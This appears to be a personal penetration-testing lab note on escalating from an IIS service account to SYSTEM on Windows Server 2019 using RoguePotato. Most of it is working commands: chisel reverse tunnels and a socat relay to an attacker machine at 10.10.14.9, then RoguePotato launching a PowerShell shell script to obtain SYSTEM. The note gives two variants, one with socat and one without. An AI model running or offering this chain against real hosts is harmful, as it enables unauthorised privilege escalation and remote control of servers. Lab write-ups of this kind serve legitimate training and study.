


# beyond 


## rogue potato

Iis user, SeImpersonate enabled.

system:  Microsoft Windows Server 2019 Standard

juicy potato not work,  Rogue works.

check ipsec video:https://www.youtube.com/watch?v=Auqt-NSB4SQ&ab_channel=IppSec

1. rogue potato run, send rpc to 10.10.14.9 135
2. Socat, fork to kali 9999
3. chisel forward to worker 9999
4. rogue standup oxid on local(worker):9999
5. steal token-- system.

```bash
# port forward, worker 9999 to kali 9999
## kali
chisel server -p 8000 --reverse
## target
.\c.exe client 10.10.14.9:8000 R:9999:localhost:9999

# reuse 135, fort to kali 9999, which is to worker 9999
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999

# rouge potato, send rpc to 10.10.14.9 135
.\rp.exe -r 10.10.14.9 -e "powershell c:\temp\shell2.ps1" -l 9999

```




no socat

1. rogue potato run, send rpc to 10.10.14.9 135
2. chisel forward kali 135  to worker 9999
3. rogue standup oxid on local(worker):9999
4. steal token-- system.

```bash
# port forward, worker 9999 to kali 135
## kali
sudo chisel server -p 8000 --reverse
## target
.\c.exe client 10.10.14.9:8000 R:135:localhost:9999

# rouge potato, send rpc to 10.10.14.9 135
.\rp.exe -r 10.10.14.9 -e "powershell c:\temp\shell2.ps1" -l 9999
```



